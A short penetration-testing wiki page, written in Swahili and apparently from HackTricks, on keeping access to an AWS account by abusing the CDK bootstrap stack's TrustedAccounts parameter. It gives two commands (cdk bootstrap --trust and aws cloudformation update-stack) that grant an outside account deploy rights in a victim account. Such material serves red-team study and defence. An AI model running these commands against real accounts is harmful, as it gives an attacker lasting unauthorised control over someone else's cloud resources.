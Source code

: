 # AWS - Cloudformation Persistence

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

Kwa maelezo zaidi, tembelea:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### CDK Bootstrap Stack

AWS CDK inapeleka CFN stack inayoitwa `CDKToolkit`. Stack hii inasaidia parameter `TrustedAccounts` ambayo inaruhusu akaunti za nje kupeleka miradi ya CDK kwenye akaunti ya mwathirika. Mshambuliaji anaweza kutumia hii kuwapa wenyewe ufikiaji usio na kikomo kwenye akaunti ya mwathirika, ama kwa kutumia AWS cli kupeleka tena stack hiyo kwa parameters, au AWS CDK cli.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
